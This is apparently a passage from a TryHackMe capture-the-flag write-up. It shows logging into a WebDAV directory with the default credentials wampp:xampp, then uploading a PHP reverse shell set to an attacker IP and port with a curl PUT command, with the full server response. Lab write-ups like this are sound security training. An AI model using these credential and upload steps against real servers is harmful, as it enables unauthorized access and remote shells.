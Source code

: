 ### Step 1 – WebDAV Access
- Used default credentials `wampp:xampp` to access `/webdav`, revealing `passwd.dav` containing the same credentials, confirming weak configuration.
- Researched WebDAV file upload capabilities, identifying it as a vector for deploying a malicious PHP script.

### Step 2 – PHP Reverse Shell Upload
- Created a PHP reverse shell script:  
  ```
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ nano rev_shell.php
  ```
  **Output Explanation:**  
  No output; nano used to edit `rev_shell.php` (sourced from GitHub, modified with attacker’s IP/port, e.g., `10.23.156.151:6969`).

- Uploaded the shell via curl:  
  ```
  ┌──(Nishanth㉿LAPTOP-4CC2EUBM)-[~/THM/webdav]
  └─$ curl --user "wampp:xampp" http://10.201.52.93/webdav/ --upload-file rev_shell.php -v
  *   Trying 10.201.52.93:80...
  * Connected to 10.201.52.93 (10.201.52.93) port 80
  * using HTTP/1.x
  * Server auth using Basic with user 'wampp'
  > PUT /webdav/rev_shell.php HTTP/1.1
  > Host: 10.201.52.93
  > Authorization: Basic [REDACTED]
  > User-Agent: curl/8.15.0
  > Accept: */*
  > Content-Length: 5494
  >
  * upload completely sent off: 5494 bytes
  < HTTP/1.1 201 Created
  < Date: Sat, 25 Oct 2025 15:51:57 GMT
  < Server: Apache/2.4.18 (Ubuntu)
  < Location: http://10.201.52.93/webdav/rev_shell.php
  < Content-Length: 273
  < Content-Type: text/html; charset=ISO-8859-1
  <
  <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
  <html><head>
  <title>201 Created</title>
  </head><body>
  <h1>Created</h1>
  <p>Resource /webdav/rev_shell.php has been created.</p>
  <hr />
  <address>Apache/2.4.18 (Ubuntu) Server at 10.201.52.93 Port 80</address>
  </body></html>
  * Connection #0 to host 10.201.52.93 left intact
  ```
  **Output Explanation:**  
  Curl uses HTTP PUT to upload `rev_shell.php` to `/webdav` with Basic Auth (credentials redacted). The 201 Created response confirms successful upload, making the shell accessible at `http://10.201.52.93/webdav/rev_shell.php`.
